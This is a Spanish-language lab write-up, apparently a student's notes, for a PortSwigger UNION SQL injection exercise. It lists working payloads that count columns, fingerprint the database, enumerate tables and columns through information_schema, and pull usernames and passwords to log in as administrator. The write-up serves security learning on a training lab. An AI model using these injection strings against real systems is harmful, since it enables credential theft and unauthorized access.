








# SQL Injection UNION Attack - Retrieving Data From Other Tables

## 📌 Lab Information

- **Lab:** Retrieving Data From Other Tables
- **Categoría:** UNION SQL Injection

🔗 [Acceder al laboratorio](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

---

## 🎯 Objetivo

Extraer usuarios y contraseñas desde otra tabla de la base de datos.

---

## 🔍 Enumeración de columnas

```sql
' order by 2 -- -
```



---

## 🔍 Validación de columnas visibles
```sql
' union select 'a','b' -- -
```



---

## 🔍 Identificación del motor

Probamos MySQL/Microsoft:

```sql
@@version
```

Error.

Probamos PostgreSQL:

```sql
version()
```



---

## 🚀 Listado de tablas

```sql
' union select table_name,null from information_schema.tables -- -
```



---

## 🔍 Tabla users



---

## 🚀 Listado de columnas

```sql
' union select column_name,null from information_schema.columns where table_name='users' -- -
```



---

## 🚀 Extracción de credenciales

```sql
' union select username,password from users -- -
```



---

## 🔓 Acceso administrador



---

## ✅ Resultado

Se logró:
- Enumerar tablas
- Enumerar columnas
- Extraer credenciales
- Acceder como administrador
